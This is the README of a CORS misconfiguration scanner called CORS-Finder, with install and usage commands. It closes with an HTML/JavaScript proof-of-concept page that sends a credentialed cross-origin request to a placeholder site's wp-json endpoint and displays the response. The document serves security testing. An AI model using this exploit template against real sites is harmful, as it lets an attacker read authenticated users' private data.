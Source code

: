 # CORS-Finder
## This tools is developed for identifying the vulnerable cors domain

![alt text](https://raw.githubusercontent.com/hariharan005/CORS/main/banner/Screenshot%20from%202023-07-01%2015-15-12.png)

### How to install CORS-Finder:
```
git clone https://github.com/hariharan005/CORS.git     
ls    
cd CORS
sudo pip3 install -r requirements.txt    
python3 cors.py
```
### Python Version:
* Python 3 (3.x.x) latest version

### How to Use CORS-Finder:

```
For scanning:
       cat <domain.txt> | xargs -n1 -P10 python3 corss.py                           
For scanning with output:  
       cat <domain.txt> | xargs -n1 -P10 python3 corss.py | tee -a <output.txt>
```

### When its vulnerable:
If the header returns the 
       Access-Control-Allow-Origin: https://vulnerable.com/
       Access-Control-Allow-Credentials: true
       its vulnerable

Note: Not all the time its seems vulnerable, you have to check with cors payload and in the authenticated manner also. Try to exploit and this tool is only for indentifying the vulnerable domain

Note: In this tool i used sample domain file but you have to choose your own url file which you recon using some other recon tool.


### Exploitation examples:

Here is the Example code for exploiting the CORS misconfiguration:

```
<!DOCTYPE html>
<html>
    <title>Cors POC</title>
    <style>
        body{
            background-color: white;
            justify-content: center;
        }
        button{
            justify-content: center;
            align-items: center;
            color: white;
            border-radius: 8px;
            font-size: 18px;
            background-color: #6437A0;
            position: relative;
            width: 10%;
            height: 50px;
            display: grid;
        }
    </style>
     <body>
         <h1>CORS PoC by @crypto_grapper_</h1><span><h2>Hariharan.C</h2></span>
         <div id="demo">
                <button type="button" onclick="cors()" >Wp-json Exploit</button>
            </div>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET", "https://www.vulnerable.com/blog/wp-json/", true);
             xhr.withCredentials = true;
             xhr.send();
             }
             setTimeout(() => {
                document.location.reload("#");
             }, 5000);
         </script>
     </body>
 </html>
```